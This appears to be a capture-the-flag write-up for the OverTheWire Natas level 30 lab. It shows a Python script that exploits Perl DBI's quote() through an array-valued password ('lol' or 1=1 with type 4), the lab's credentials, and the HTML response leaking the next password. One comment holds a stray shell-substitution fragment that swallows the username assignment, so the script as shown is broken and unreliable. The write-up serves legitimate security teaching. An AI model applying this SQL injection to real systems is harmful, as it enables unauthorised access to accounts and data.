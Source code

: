 I tried searching on google for perl functions vulnerable to SQLi. I got a lot of results for the quote function. One of the stackoverflow answers explained a lot, and I strongly suggest you take a look.

[**https://security.stackexchange.com/questions/175703/is-this-perl-database-connection-vulnerable-to-sql-injection**](https://security.stackexchange.com/questions/175703/is-this-perl-database-connection-vulnerable-to-sql-injection)

TLDR; So if you call `quote(param("username"))`, the user can supply the second parameter to `quote`, by passing in two `username` values. Since the second parameter determines how to do quoting, this can introduce an SQL injection vulnerability.

However, how the second parameter is handled depends on the DBD driver, which is different for each database type. If an integer is passed quoting is not done (in SQL).

So, we write a python script to feed array , and the 2nd place which determines the quoting to be an integer.

```python
import requests
from requests.auth import HTTPBasicAuth
#identified sample=^$(grep -o ^Wa natas16)Iuser='natas30'
passw='wie9iexae0Daihohv8vuu3cei9wahf0e'
#clumsy but manageable
payload= {'username': 'natas31', 'password': ["'lol' or 1=1",4]}
answer=requests.post('http://natas30.natas.labs.overthewire.org/index.pl', data=payload,auth=HTTPBasicAuth(user,passw))
str1 = answer.text
print(answer.text)
```

The html response returns the password for natas31 as shown below.

```html
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN">
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas30", "pass": "wie9iexae0Daihohv8vuu3cei9wahf0e" };</script></head>
<body oncontextmenu="javascript:alert('right clicking has been blocked!');return false;"><!-- morla/10111 <3  happy birthday OverTheWire! <3  --><h1>natas30</h1>
<div id="content"><form action="index.pl" method="POST">
Username: <input name="username"><br>
Password: <input name="password" type="password"><br>
<input type="submit" value="login" />
</form>
win!<br>here is your result:<br>natas31hay7aecuungiuKaezuathuk9biin0pu1<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```
